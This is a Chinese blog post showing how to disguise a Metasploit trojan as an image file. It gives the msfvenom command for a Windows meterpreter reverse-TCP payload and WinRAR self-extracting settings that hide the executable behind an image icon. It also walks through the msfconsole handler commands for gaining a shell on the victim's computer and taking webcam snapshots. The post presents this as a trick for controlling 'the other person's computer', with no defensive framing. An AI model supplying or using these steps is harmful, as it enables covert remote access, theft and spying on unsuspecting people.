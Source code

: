 ```yaml
---
layout:     post
title:      在图片中隐藏msf木马
subtitle:   在图片中隐藏msf木马
date:       2021-7-29
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 小技巧
---
```


首先下载一个，普通的图片，并将它转换为ico格式。

url地址：https://www.qtool.net/ico

转换后就是一个ico的图片格式。



Msfvenom生成木马

```shell
Msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=8888 -f exe >shell.exe
```

会在桌面生成一个一个exe文件。

 

将生成的木马和ico图片放在一起，使用WinRAR工具进行合并。

右键将两个文件，进行添加到文件压缩文件



1. 将‘创建自解压格式压缩文件’勾上

2. 切换到’高级’到’自解压选项’，会弹出来一个框。

3. 在设置下的’解压后运行’中输入图片以及木马的全称。

4. 切换到‘模式’选择全部隐藏。

5. 切换到’文本和图标’，’从文件加载自解压图标’

   浏览之前的ico文件并确认。

已上操作无误后即可，及可生成一个带有图像图标的可执行文件。



木马搞好后我们需要进行监听。

打开msfconsole

```shell
Msfconsole
Use exploit/multi/handler
Set payload windows/meterpreter/reverse_tcp
Set lhost ip
Set lport 8888
Run
```

[![fWeRYV.png](https://z3.ax1x.com/2021/08/16/fWeRYV.png)](https://imgtu.com/i/fWeRYV)

Run进行监听，开启监听后执行木马，及可上线并控制对方电脑。

[![fWeHT1.png](https://z3.ax1x.com/2021/08/16/fWeHT1.png)](https://imgtu.com/i/fWeHT1)

输入shell即可获取对方电脑的控制权。

然er出现中文乱码输入 Chcp 65001

查看摄像头拍照 Webcam_snap